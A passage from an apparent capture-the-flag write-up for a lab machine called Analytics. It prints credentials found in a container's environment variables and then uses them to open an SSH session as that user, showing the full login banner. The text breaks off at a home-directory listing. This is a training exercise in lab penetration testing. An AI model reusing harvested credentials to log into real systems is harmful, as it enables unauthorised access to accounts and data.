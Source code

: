 ```bash
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
OLDPWD=/home
00a6c0aad7fb:/$ 
```

User Credentials Discovered in Env. Vars
```
metalytics:An4lytics_ds20223#
```

---

## 🏁 **Flag Exfiltration**

### **User Flag**

Let's use the credentials that we've got on previous step to try a SSH foothold.
```bash
ssh metalytics@analytics.htb                     
metalytics@analytics.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Dec 29 12:21:32 AM UTC 2023

  System load:              0.236328125
  Usage of /:               93.1% of 7.78GB
  Memory usage:             25%
  Swap usage:               0%
  Processes:                153
  Users logged in:          0
  IPv4 address for docker0: 172.17.0.1
  IPv4 address for eth0:    10.10.11.233
  IPv6 address for eth0:    dead:beef::250:56ff:feb9:42e2

  => / is using 93.1% of 7.78GB

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Oct  3 09:14:35 2023 from 10.10.14.41
metalytics@analytics:~$
```
We are in! Now let's see what this user has in its home directory:
```
metalytics@analytics:~$ ls -la ~
total 36
```